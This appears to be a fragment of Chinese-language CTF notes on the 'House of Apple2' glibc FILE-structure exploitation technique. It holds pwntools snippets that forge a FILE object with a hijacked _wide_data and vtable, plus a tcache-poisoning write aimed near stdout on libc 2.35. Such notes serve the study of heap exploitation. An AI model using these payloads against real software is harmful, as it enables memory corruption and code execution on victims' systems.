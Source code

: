 ```python
lss('_IO_list_all')
#gdb.attach(io,'brva 0x001354')
#gdb.attach(io,'b *_IO_switch_to_wget_mode')
#rm(1)
ru('>> \n')
sl('4')

io.interactive()
```

## House Of apple2

‍

### libc 2.23 printf 触发 apple2?

- 打的是 `_IO_2_1_stdout_`​
- 劫持bss 上的 stdout 指针  或者 直接在 `_IO_2_1_stdout_`​ 里写 payload

‍

```python
fake_file = FileStructure()
fake_file.flags = 0
fake_file._IO_write_ptr = p64(1)
fake_file.chain = p64(0x414141)
fake_file._wide_data = p64(fake_IO_addr)
fake_file.vtable = p64(_IO_wfile_jumps)
fake_file = bytes(fake_file)+p64(fake_IO_addr)
```

‍

‍

### libc-2.35  2.37 puts 触发 house ( 没 setbuf stdout)

‍

#### attack target

‍

这里试的是 libc 2.35 版本， 攻击的是 stdout 存储的指针

‍

```python
stdout = libc.sym['stdout'] # 可以任意地址申请到附近
_IO_2_1_stderr_ = libc.sym['_IO_2_1_stderr_']
# 由于一些问题我们可以申请到  stdout -0x28的地址
edit(12,p64(key ^ (stdout-0x28))+b'\n')

# tcachebin list

```
